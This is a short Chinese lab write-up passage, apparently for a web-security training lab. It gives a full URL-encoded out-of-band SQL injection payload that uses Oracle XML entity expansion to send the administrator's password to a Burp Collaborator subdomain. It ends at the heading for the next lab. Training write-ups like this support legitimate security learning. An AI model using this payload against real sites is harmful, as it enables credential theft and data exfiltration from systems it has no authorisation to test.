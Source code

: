根据题意，我们知道存在users表，存在username和password字段，并存在administrator用户名。在上一关的基础上进行修改，加上查询语句便可得到管理员密码。在trackingId后加上： `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

同样，替换掉你的子域名，send之后点击poll now查询，可以看到返回了密码。

![image-20240910131428404](./imgs/image-20240910131428404.png)

![image-20240910131459764](./imgs/image-20240910131459764.png)

## 通过XML编码使用过滤器旁路的SQL注入
